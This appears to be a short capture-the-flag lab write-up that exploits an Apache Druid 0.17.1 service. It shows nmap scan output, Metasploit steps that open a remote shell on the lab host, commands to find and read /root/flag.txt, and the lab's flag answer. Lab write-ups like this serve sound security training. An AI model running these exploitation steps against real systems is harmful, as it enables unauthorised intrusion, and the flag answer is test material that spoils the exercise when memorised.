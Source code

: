 # Payloads

### Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer.

```bash
nmap -sC -sV 10.129.203.52 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
8081/tcp open  http    Jetty 9.4.12.v20180830
| http-title: Apache Druid
|_Requested resource was http://10.129.203.52:8081/unified-console.html
|_http-server-header: Jetty(9.4.12.v20180830)
8083/tcp open  http    Jetty 9.4.12.v20180830
|_http-server-header: Jetty(9.4.12.v20180830)
|_http-title: Site doesn't have a title.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

mostly website port, lets check it

its running Apache Druid version 0.17.1

```bash
#metasploit
msfconsole
search apache druid
use 0
set rhosts 
set lhost
run
shell
/bin/bash -i
find / -name flag.txt 2>/dev/null
/root/flag.txt
cat /root/flag.txt
HTB{MSF_Expl01t4t10n}
```
